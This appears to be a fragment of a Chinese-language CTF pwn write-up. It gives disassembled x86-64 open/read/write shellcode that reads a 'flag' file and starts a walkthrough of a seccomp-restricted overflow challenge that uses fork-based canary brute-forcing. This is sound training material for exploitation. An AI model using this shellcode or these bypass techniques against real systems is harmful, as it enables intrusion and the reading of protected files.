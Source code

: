 ```
```

#### 另一种64位

```
   ; open("flag", 0)
   0:   68 66 6c 61 67          push   0x67616c66
   5:   6a 02                   push   0x2
   7:   58                      pop    rax
   8:   48 89 e7                mov    rdi,rsp
   b:   48 31 f6                xor    rsi,rsi
   e:   0f 05                   syscall 

   ; read(fd, rsp, 0x20)
  10:   48 89 c7                mov    rdi,rax
  13:   48 31 c0                xor    rax,rax
  16:   48 89 e6                mov    rsi,rsp
  19:   6a 20                   push   0x20
  1b:   5a                      pop    rdx
  1c:   0f 05                   syscall 

   ; write(1, rsp, 0x20)
  1e:   6a 01                   push   0x1
  20:   58                      pop    rax
  21:   6a 01                   push   0x1
  23:   5f                      pop    rdi
  24:   48 89 e6                mov    rsi,rsp
  27:   6a 20                   push   0x20
  29:   5a                      pop    rdx
  2a:   0f 05                   syscall
```

### 1. orw都没有禁用

-------------------------------------------------------------------------------------------------------------------

我们看一道国赛分区赛的一道题

![[Pasted image 20240923214000.png]]

发现禁用了execve，orw没有禁用。

![[Pasted image 20240923214007.png]]

开了nx和金丝雀

可以看到主函数里面是有一个溢出函数的那么我门可以在第一处位置输入我们的

后门函数orw

![[Pasted image 20240923214014.png]]

bad函数里面我们可以通过fork子进程爆破
